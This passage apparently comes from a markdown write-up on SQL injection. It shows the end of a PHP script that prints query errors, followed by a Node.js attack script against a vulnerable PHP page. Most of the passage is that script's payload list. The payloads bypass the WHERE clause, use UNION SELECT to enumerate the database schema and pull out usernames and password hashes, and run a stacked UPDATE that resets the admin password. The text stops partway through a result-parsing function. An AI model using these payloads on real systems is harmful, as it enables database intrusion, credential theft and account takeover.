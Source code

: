 ```php
        echo "</table>";
    } else {
        echo "Error executing query: " . mysqli_error($conn);
    }
}
?>
```

> this script explpoits this by using the [packet](#sql-injections)
```node 
const axios = require('axios');
const cheerio = require('cheerio');

// Target vulnerable PHP application URL
const targetUrl = 'http://example.com/vulnerable_app.php';

// SQL Injection payloads to demonstrate different attacks
const sqlInjectionPayloads = [
  {
    name: "Return all users",
    payload: "1 OR 1=1",
    description: "This bypasses the WHERE clause condition to return all users in the database."
  },
  {
    name: "Database information",
    payload: "1 UNION SELECT 1,database(),user(),version()",
    description: "This extracts the database name, current user, and database version."
  },
  {
    name: "Table information",
    payload: "1 UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema')",
    description: "This retrieves table names from the current database schema."
  },
  {
    name: "Column information",
    payload: "1 UNION SELECT 1,column_name,data_type,table_name FROM information_schema.columns WHERE table_name='users'",
    description: "This retrieves column names and data types from the users table."
  },
  {
    name: "Extract credentials",
    payload: "1 UNION SELECT id,username,password,email FROM users",
    description: "This attempts to extract usernames and password hashes."
  },
  {
    name: "Destructive attack",
    payload: "1; UPDATE users SET password='hacked' WHERE id=1",
    description: "This attempts to change the admin password. (Commented out for safety)"
  }
];

// Function to parse and display the results from the vulnerable page
async function parseResults(html) {
  const $ = cheerio.load(html);
  const tableData = [];
  
  // Extract table headers
  const headers = [];
  $('table tr th').each((i, el) => {
    headers.push($(el).text().trim());
  });
  
  // Extract table rows
```